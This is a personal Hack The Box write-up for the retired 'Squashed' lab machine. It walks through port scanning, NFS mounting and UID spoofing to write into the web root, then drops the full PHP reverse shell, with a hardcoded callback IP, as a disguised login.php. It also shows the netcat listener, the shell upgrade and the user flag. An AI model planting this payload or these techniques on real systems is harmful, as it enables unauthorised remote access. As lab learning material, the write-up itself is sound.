






# HTB - Squashed

HTB Rules for `retired` machines:   


So choosed a retired machine, [Squashed](https://app.hackthebox.com/machines/Squashed), for demonstration purposes:    
Clicked `join the machine`: 



On my Attack machine, i connected to the OpenVPN i got from HTB, with GUI Network Manager.

Made a workspace dir and switched to it.   
Tried to ping Google, Cloudfare and the `Squashed` machine.   
```bash
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ mkdir htb_squashed_ret
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ cd htb_squashed_ret
                                                                                                                   
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ ping google.com  
^C
                                                                                                                   
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ ping 1.1.1.1     
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
^C
--- 1.1.1.1 ping statistics ---
5 packets transmitted, 0 received, 100% packet loss, time 4121ms

                                                                                                                   
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ ping www.google.com
^C
                                                                                                                   
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ ping 10.10.11.191            
PING 10.10.11.191 (10.10.11.191) 56(84) bytes of data.
64 bytes from 10.10.11.191: icmp_seq=1 ttl=63 time=333 ms
64 bytes from 10.10.11.191: icmp_seq=2 ttl=63 time=63.3 ms
64 bytes from 10.10.11.191: icmp_seq=3 ttl=63 time=74.6 ms
^C
--- 10.10.11.191 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2021ms
rtt min/avg/max/mdev = 63.348/156.835/332.584/124.357 ms
                                                                                                                   
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ 
```
All good, HTB machine answers, others dont.   

Next i scanned the Victim:   
```bash
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ nmap -A -p- 10.10.11.191
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-17 14:03 EEST
Nmap scan report for 10.10.11.191
Host is up (0.066s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      39936/udp6  mountd
|   100005  1,2,3      40337/tcp6  mountd
|   100005  1,2,3      45492/udp   mountd
|   100005  1,2,3      47591/tcp   mountd
|   100021  1,3,4      35629/udp6  nlockmgr
|   100021  1,3,4      41737/tcp   nlockmgr
|   100021  1,3,4      43683/tcp6  nlockmgr
|   100021  1,3,4      59046/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
35239/tcp open  mountd   1-3 (RPC #100005)
37309/tcp open  mountd   1-3 (RPC #100005)
41737/tcp open  nlockmgr 1-4 (RPC #100021)
47591/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.67 seconds
```
SSH on port 22
HTTP on port 80   
RPC on port 111:   
[Remote Procedure Call](https://www.techtarget.com/searchapparchitecture/definition/Remote-Procedure-Call-RPC)

- `rcbind`      
	- https://linux.die.net/man/8/rpcbind

- `nfs`    
	- I knew is a Network File System

- `mountd`   
	- https://linux.die.net/man/8/mountd

- `nlockmgr`   
	- *nlockmgr is the lock manager for Network File Systems (NFS).   
	- https://www.ibm.com/docs/en/zos/2.4.0?topic=introduction-nfs-versions-tcpip-protocols   
	- https://community.hpe.com/t5/networking/nlockmgr-on-port-600-what-is-it/td-p/2551576   

- `nfs_acl`     
	- https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting

Okay so based on the info ive gathered, there is an Network Drive available.   
Also assuming there is an website available, in machine's URL.   
http://10.10.11.191/index.html   


Nothing special or suspicious was found while checking the pages with Zap...
Notes:
```bash
HTTP/1.1 200 OK  
Date: Mon, 17 Apr 2023 11:24:27 GMT  
Server: Apache/2.4.41 (Ubuntu)  
Last-Modified: Mon, 17 Apr 2023 11:20:01 GMT  
ETag: "7f14-5f9865f31cfbb"  
Accept-Ranges: bytes  
Content-Length: 32532  
Vary: Accept-Encoding  
Keep-Alive: timeout=5, max=100  
Connection: Keep-Alive  
Content-Type: text/html
```

Next, the `directory enumeration` with [Gobuster](https://www.kali.org/tools/gobuster/):   
```bash
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u 10.10.11.191
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.191
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/17 14:31:05 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.191/css/]
/images               (Status: 301) [Size: 313] [--> http://10.10.11.191/images/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.191/js/]
/server-status        (Status: 403) [Size: 277]
Progress: 20433 / 20470 (99.82%)
===============================================================
2023/04/17 14:33:13 Finished
===============================================================
```

Nothing interesting found...   

Proceeded with the NFS and mounting.    
From [HackTricks - Pentesting a NFS](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting):
```bash
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *  
```

This is where it starts to get interesting!   
Next i tried to mount the `ross` home to my local machine.   
```bash
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ sudo mount -t nfs 10.10.11.191:/home/ross /mnt/squashed           
                                                                                                                    
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ cd /mnt/squashed   
                                                                                                                    
┌──(kali㉿kali)-[/mnt/squashed]
└─$ ls             
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
                                                                                                                    
┌──(kali㉿kali)-[/mnt/squashed]
└─$ ls -la         
total 68
drwxr-xr-x 14 test test 4096 Apr 17 00:13 .
drwxr-xr-x  3 root root 4096 Apr 17 14:43 ..
lrwxrwxrwx  1 root root    9 Oct 20 16:24 .bash_history -> /dev/null
drwx------ 11 test test 4096 Oct 21 17:57 .cache
drwx------ 12 test test 4096 Oct 21 17:57 .config
drwxr-xr-x  2 test test 4096 Oct 21 17:57 Desktop
drwxr-xr-x  2 test test 4096 Oct 21 17:57 Documents
drwxr-xr-x  2 test test 4096 Oct 21 17:57 Downloads
drwx------  3 test test 4096 Oct 21 17:57 .gnupg
drwx------  3 test test 4096 Oct 21 17:57 .local
drwxr-xr-x  2 test test 4096 Oct 21 17:57 Music
drwxr-xr-x  2 test test 4096 Oct 21 17:57 Pictures
drwxr-xr-x  2 test test 4096 Oct 21 17:57 Public
drwxr-xr-x  2 test test 4096 Oct 21 17:57 Templates
drwxr-xr-x  2 test test 4096 Oct 21 17:57 Videos
lrwxrwxrwx  1 root root    9 Oct 21 16:07 .viminfo -> /dev/null
-rw-------  1 test test   57 Apr 17 00:13 .Xauthority
-rw-------  1 test test 2475 Apr 17 00:13 .xsession-errors
-rw-------  1 test test 2475 Dec 27 17:33 .xsession-errors.old
                                                                                                                    
┌──(kali㉿kali)-[/mnt/squashed]
```


Checked the tree:
```bash
┌──(kali㉿kali)-[/mnt/squashed]
└─$ tree -uga  
[test     test    ]  .
├── [root     root    ]  .bash_history -> /dev/null
├── [test     test    ]  .cache  [error opening dir]
├── [test     test    ]  .config  [error opening dir]
├── [test     test    ]  Desktop
├── [test     test    ]  Documents
│   └── [test     test    ]  Passwords.kdbx
├── [test     test    ]  Downloads
├── [test     test    ]  .gnupg  [error opening dir]
├── [test     test    ]  .local  [error opening dir]
├── [test     test    ]  Music
├── [test     test    ]  Pictures
├── [test     test    ]  Public
├── [test     test    ]  Templates
├── [test     test    ]  Videos
├── [root     root    ]  .viminfo -> /dev/null
├── [test     test    ]  .Xauthority
├── [test     test    ]  .xsession-errors
└── [test     test    ]  .xsession-errors.old

```

```bash
  # tree
-a            All files are listed.
-u            Displays file owner or UID number.
-g            Displays file group owner or GID number.
```


Passwords.kdbx = https://keepass.info/

Took the keypass file:
```bash
┌──(kali㉿kali)-[/mnt/squashed]
└─$ cp Documents/Passwords.kdbx ~/htb_squashed_ret 
```

Decided to try to crack it with John:
```bash
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ keepass2john Passwords.kdbx > Passwords.txt
! Passwords.kdbx : File version '40000' is currently not supported!
```

https://miloserdov.org/?p=5191    
*It is currently not possible to crack a KeePass password with a KDBX version 4.0 database in John the Ripper.*

So thats it for that...   

Back to "drawing board"   
What got me thinking when reading about NFS and mounting a network drive, it shows `test` as the owner  of those files in `/home/ross` that is mounted on my machine.   
So what it means is the permissions are for UID, and that happens to match a `test` user i have on my machine.   
So i could just switch to `test` user but there wasn't anything useful in the folder at this point anyway, so i unmounted it, and mounted the `/var/www/html` next.   

```bash
┌──(kali㉿kali)-[/mnt]
└─$ sudo umount squashed                                   
                                                                                                                    
┌──(kali㉿kali)-[/mnt]
└─$ sudo mount -t nfs 10.10.11.191:/var/www/html /mnt/squashed        
                                                                                                                    
┌──(kali㉿kali)-[/mnt]
└─$ ls -la squashed
ls: cannot access 'squashed/.': Permission denied
ls: cannot access 'squashed/..': Permission denied
ls: cannot access 'squashed/.htaccess': Permission denied
ls: cannot access 'squashed/index.html': Permission denied
ls: cannot access 'squashed/images': Permission denied
ls: cannot access 'squashed/css': Permission denied
ls: cannot access 'squashed/js': Permission denied
ls: cannot access 'squashed/.she.php': Permission denied
ls: cannot access 'squashed/..she.php.swp': Permission denied
total 0
d????????? ? ? ? ?            ? .
d????????? ? ? ? ?            ? ..
?????????? ? ? ? ?            ? css
?????????? ? ? ? ?            ? .htaccess
?????????? ? ? ? ?            ? images
?????????? ? ? ? ?            ? index.html
?????????? ? ? ? ?            ? js
?????????? ? ? ? ?            ? .she.php
?????????? ? ? ? ?            ? ..she.php.swp
                                                                                                                    
┌──(kali㉿kali)-[/mnt]
└─$ ls -la         
total 48
drwxr-xr-x  3 root root      4096 Apr 17 14:43 .
drwxr-xr-x 19 root root     36864 Mar 28 11:22 ..
drwxr-xr--  5 2017 www-data  4096 Apr 17 15:05 squashed
```

No acccess to the folder, but the permissions of the mounted folder itself is interesting!   
Tried to create the user, and realized i need and user with that UID:   
```bash
┌──(kali㉿kali)-[/mnt]
└─$ sudo adduser 2017                                         
adduser: To avoid ambiguity with numerical UIDs, usernames which
            consist of only digits are not allowed.
```

https://www.cyberciti.biz/faq/linux-change-user-group-uid-gid-for-all-owned-files/

So im using my `test` , and changing it's id as needed, for `2017` 
```bash
┌──(kali㉿kali)-[/mnt]
└─$ sudo usermod -u 2017 test
                                                                                                                    
┌──(kali㉿kali)-[/mnt]
└─$ su test                  
Password: 
┌──(test㉿kali)-[/mnt]
└─$ ls -la squashed/                                                                                                
total 64
drwxr-xr-- 5 test www-data  4096 Apr 17 15:05 .
drwxr-xr-x 3 root root      4096 Apr 17 14:43 ..
drwxr-xr-x 2 test www-data  4096 Apr 17 15:05 css
-rw-r--r-- 1 test www-data    44 Oct 21 13:30 .htaccess
drwxr-xr-x 2 test www-data  4096 Apr 17 15:05 images
-rw-r----- 1 test www-data 32532 Apr 17 15:05 index.html
drwxr-xr-x 2 test www-data  4096 Apr 17 15:05 js
-rw-r--r-- 1 test www-data    31 Apr 17 00:52 .she.php
-rw-r--r-- 1 test www-data  1024 Apr 17 00:52 ..she.php.swp
```

And i was back in action!!   
Made a test.html with only word `test`   



Worked.

Next the reverse shell which i have used before in one machine.   
*This is where the teacher says, "You have to know what you are doing, so you should explain the Reverse Shell"*    
**I gotchu!**   
A reverse shell is a type of shell in which the target machine communicates back to the attacker's machine. 
- The attacker sets up a listener on their machine and then sends a payload to the target machine, which when executed, establishes a connection to the attacker's machine. Then the attacker has the ability to execute commands on the victims machine remotely.

- They are used to gain access to a target machine and maintain persistence, as they allow the attacker to bypass firewalls and other security measures that might be in place. They can also be used to ex-filtrate data from the target machine.

Sources:   
Niko Heiskanen [Himself](https://heiskanen.rocks/)   
[Many of IppSec's videos](https://www.youtube.com/@ippsec/search?query=reverse%20shell)   
["Reverse Shell Cheat Sheet" by Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)   

The one i needed to make a whole `.php` site.   
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Attack machine, connection listener:   
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
```

nc parameters used:   
```bash
#nc
-n		Suppress name/port resolutions
-l		Listen mode, for inbound connects
-v		Verbose
-p port	Specify local port for remote connects # 9002 in this case
```

As i consider myself sneaky, i created `login.php` and pasted the code with my ip and port that is listening in my Attack machine.   

The reverse shell code:
```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.166';  // My Ip
$port = 9002;       // Port i have a listener in
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```


Browsed to http://10.10.11.191/login.php

Attack machine got the connection:   
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.166] from (UNKNOWN) [10.10.11.191] 33786
Linux squashed.htb 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 12:17:25 up 15:04,  1 user,  load average: 0.01, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Sun21   15:04m  1:25   0.02s /usr/libexec/gnome-session-binary --systemd --session=gnome
uid=2017(alex) gid=2017(alex) groups=2017(alex)
/bin/sh: 0: can't access tty; job control turned off
```

Next basic `bash` spawn and thing to get all the goodies for the terminal:

```bash
$ python --version
/bin/sh: 2: python: not found
$ python3 --version
Python 3.8.10
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
alex@squashed:/$ ^Z
zsh: suspended  nc -nlvp 9002
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nlvp 9002

alex@squashed:/$ export TERM=xterm
```
Sources for "improved shell":    
Niko Heiskanen [Himself](https://heiskanen.rocks/)       
[Many of IppSec's videos](https://www.youtube.com/@ippsec/search?query=improved%20shell)   


Then stuff i always do, to verify "who and where":   
```bash
alex@squashed:/$ id
uid=2017(alex) gid=2017(alex) groups=2017(alex)
alex@squashed:/$ whoami
alex
alex@squashed:/$ pwd
/
alex@squashed:/$ ls -la
total 84
drwxr-xr-x  20 root root  4096 Oct 21 14:57 .
drwxr-xr-x  20 root root  4096 Oct 21 14:57 ..
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Oct 31 10:22 boot
drwxr-xr-x   2 root root  4096 Oct 21 14:57 cdrom
drwxr-xr-x  17 root root  3960 Apr 16 21:12 dev
drwxr-xr-x 137 root root 12288 Oct 31 10:20 etc
drwxr-xr-x   4 root root  4096 Oct 21 14:57 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 May  7  2020 lost+found
drwxr-xr-x   2 root root  4096 Apr 23  2020 media
drwxr-xr-x   2 root root  4096 Oct 21 14:57 mnt
drwxr-xr-x   2 root root  4096 Oct 21 14:57 opt
dr-xr-xr-x 299 root root     0 Apr 16 21:12 proc
drwx------  18 root root  4096 Dec 27 15:38 root
drwxr-xr-x  35 root root  1060 Apr 17 01:51 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct 21 14:57 snap
drwxr-xr-x   2 root root  4096 Oct 21 14:57 srv
dr-xr-xr-x  13 root root     0 Apr 16 21:12 sys
drwxrwxrwt   2 root root  4096 Apr 17 06:21 tmp
drwxr-xr-x  14 root root  4096 Oct 21 14:57 usr
drwxr-xr-x  16 root root  4096 Oct 21 14:57 var
```

Going for the user flag:     
```bash
alex@squashed:/$ cd home/alex/
alex@squashed:/home/alex$ ls
Desktop    Music           Pictures   Videos          snap
Documents  Passwords.kdbs  Public     screenshot.vwd  user.txt
Downloads  Passwords.kdbx  Templates  screenshot.xwd
alex@squashed:/home/alex$ cat user.txt 
18**********************
```

User flag obtained!   
Also the screenshots got my attention.   

PrivEsc:   

As i dont know any passwords, only can use users it was quite hard to proceed.    

Notes about the files and stuff, as the `Xauthority` and `screenshot.*` hints, that there is a display session open:   
```bash
xwd:    
https://fileinfo.com/extension/xwd   
.Xauthority:    
https://askubuntu.com/questions/300682/what-is-the-xauthority-file
So there is an "display" active... Probably.      
https://unix.stackexchange.com/questions/429092/what-is-the-best-way-to-find-the-current-display-and-xauthority-in-non-interacti   
```

But there were few screenshots... So spinned up a webserver to server those:
```bash
alex@squashed:/home/alex$ ls -la
total 3836
drwxr-xr-x 15 alex alex    4096 Apr 17 10:58 .
drwxr-xr-x  4 root root    4096 Oct 21 14:57 ..
-rw-r--r--  1 alex alex      57 Apr 16 21:13 .Xauthority
lrwxrwxrwx  1 root root       9 Oct 17 13:23 .bash_history -> /dev/null
drwxr-xr-x  8 alex alex    4096 Oct 21 14:57 .cache
drwx------  8 alex alex    4096 Oct 21 14:57 .config
drwx------  3 alex alex    4096 Oct 21 14:57 .gnupg
drwx------  3 alex alex    4096 Oct 21 14:57 .local
lrwxrwxrwx  1 root root       9 Oct 21 13:06 .viminfo -> /dev/null
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Desktop
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Documents
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Downloads
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Music
-rw-r--r--  1 alex alex     335 Apr 16 21:49 Passwords.kdbs
-rw-r--r--  1 alex alex    1365 Apr 16 21:53 Passwords.kdbx
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Pictures
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Public
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Templates
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Videos
-rw-r--r--  1 alex alex 1923179 Apr 17 10:57 screenshot.vwd
-rw-r--r--  1 alex alex 1923179 Apr 17 10:58 screenshot.xwd
drwx------  3 alex alex    4096 Oct 21 14:57 snap
-rw-r-----  1 root alex      33 Apr 16 21:13 user.txt
alex@squashed:/home/alex$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
